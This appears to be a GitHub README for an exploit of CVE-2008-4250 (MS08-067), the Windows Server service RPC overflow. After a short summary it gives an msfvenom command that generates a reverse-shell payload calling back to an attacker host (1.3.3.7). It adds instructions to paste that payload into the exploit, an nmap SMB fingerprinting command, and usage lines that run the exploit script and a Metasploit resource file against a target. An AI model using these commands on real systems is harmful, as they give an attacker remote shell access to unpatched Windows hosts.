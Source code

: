 # CVE-2008-4250

## Summary

The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2, Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary code via a crafted RPC request that triggers the overflow during path canonicalization, as exploited in the wild by Gimmiv.A in October 2008, aka "Server Service Vulnerability." 

## Generating Shellcode

Just execute and paste into exploit code.

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=1.3.3.7 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```

Also: nmap has a good OS discovery script that pairs well with this exploit:

```sh
nmap -p 139,445 --script-args=unsafe=1 --script /usr/share/nmap/scripts/smb-os-discovery 192.168.1.1
```

## Usage

```sh
./ms08_067_2018.py xx.xx.xx.xx 1 445
```

## Metasploit

```sh
msfconsole -r ms08_067_netapi.rc
```
